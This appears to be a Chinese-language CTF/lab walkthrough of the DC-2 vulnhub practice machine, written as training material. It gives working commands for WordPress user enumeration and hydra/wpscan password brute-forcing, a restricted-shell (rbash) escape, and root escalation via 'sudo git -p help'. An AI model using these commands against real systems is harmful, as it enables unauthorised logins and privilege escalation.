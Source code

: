 ```yaml
---
title: vul靶机练习-DC2
date: 2020-10-19 17:33:57
tags: [vulhub,爬取密码,弱口令]
categories: vulhub靶机
---
```


[toc]

## DC-2

### 信息收集

> 局域网探测存活主机
>
> `arp-scan -l`
>
> 利用nmap收集端口信息
>
> 收集文件目录信息

### flag

> ![image-20201019174546666](vulhub靶机练习-DC2/image-20201019174546666.png)
>
> ***爬取收集密码***
>
> > ` cewl dc-2 > pwd.dic`
> >
> > dc-2为域名，hosts里自己修改
>
> ***收集用户名***
>
> > ![image-20201019175019688](vulhub靶机练习-DC2/image-20201019175019688.png)
> >
> > `wpscan --url dc-2 -e u`
>
> ***WordPress后台爆破***
>
> > * 利用hydra
> >
> >   > ` hydra -L user.dic -P pwd.dic 192.168.191.133 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:<title>ERROR</title>"`
> >
> > * 利用wpscan
> >
> >   > `wpscan --url dc-2 -U user.dic -P pwd.dic`
> >   >
> >   > ![image-20201019175311211](vulhub靶机练习-DC2/image-20201019175311211.png)
>
> ***flag2***
>
> ![image-20201019175604160](vulhub靶机练习-DC2/image-20201019175604160.png)
>
> ***爆破tom ssh***
>
> > 登陆后发现是rbash，可以用vi命令查看flag3.txt
>
> ***绕过rbash***
>
> > `B[1]=/bin/sh;1`
> >
> > ![image-20201020103743269](vulhub靶机练习-DC2/image-20201020103743269.png)
> >
> > 大写字母做数组名就可
> >
> > ***添加环境变量***
> >
> > > `export PATH=/bin:$PATH`
> > >
> > > `export PATH=/usr/bin:$PATH`
> > >
> > > $ps$:`:$PATH`可以在前也可以在后
> > >
> > > 
>
> ***切换用户发现flag4***
>
> ![image-20201020104951015](vulhub靶机练习-DC2/image-20201020104951015.png)
>
> 

### 利用git提权获取得到最终的flag

> ![image-20201020110359244](vulhub靶机练习-DC2/image-20201020110359244.png)
>
> ***git提权***
>
> > `sudo git -p help`
> >
> > `! '/bin/sh'`
>
> 类似于more和less类型的提权

### 总结

> ***靶机难度***：⭐
>
> ==知识点==
>
> ○git提权
>
> ○rbash绕过
>
> ○cewl爬取字典
>
> ○wpscan和hydra爆破
>
> ○添加环境变量执行更多命令

